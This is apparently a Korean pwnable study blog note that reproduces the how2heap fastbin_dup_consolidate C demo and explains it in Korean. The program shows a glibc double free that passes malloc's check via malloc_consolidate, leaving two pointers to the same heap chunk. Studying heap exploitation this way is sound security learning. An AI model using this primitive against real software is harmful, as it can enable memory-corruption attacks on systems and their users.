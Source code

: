 ```
layout: post
type: note
title: fastbin dup consolidate
alias: Pwnable
```

how2heap fastbin_dup_consolidate.c

```c
#include <stdio.h>
#include <stdint.h>
#include <stdlib.h>

int main() {
  void* p1 = malloc(0x40);
  void* p2 = malloc(0x40);
  fprintf(stderr, "Allocated two fastbins: p1=%p p2=%p\n", p1, p2);
  fprintf(stderr, "Now free p1!\n");
  free(p1);

  void* p3 = malloc(0x400);
  fprintf(stderr, "Allocated large bin to trigger malloc_consolidate(): p3=%p\n", p3);
  fprintf(stderr, "In malloc_consolidate(), p1 is moved to the unsorted bin.\n");
  free(p1);
  fprintf(stderr, "Trigger the double free vulnerability!\n");
  fprintf(stderr, "We can pass the check in malloc() since p1 is not fast top.\n");
  fprintf(stderr, "Now p1 is in unsorted bin and fast bin. So we'will get it twice: %p %p\n", malloc(0x40), malloc(0x40));
}
```

p1, p2를 할당하고 p1을 free한 후 large을 할당하면 p1이 smallbin으로 병합이 된다. 그리고 p1을 free하면 다시 fastbin으로 간다. 그 후 malloc() 같은 사이즈를 두 번하면 한번은 p1 fastbin이 들어간 주소를 가져오고 그 다음 p1 smallbin이 들어간 주소를 가져온다. 그러므로 두개의 포인터가 같은 힙 영역을 가르키게 된다.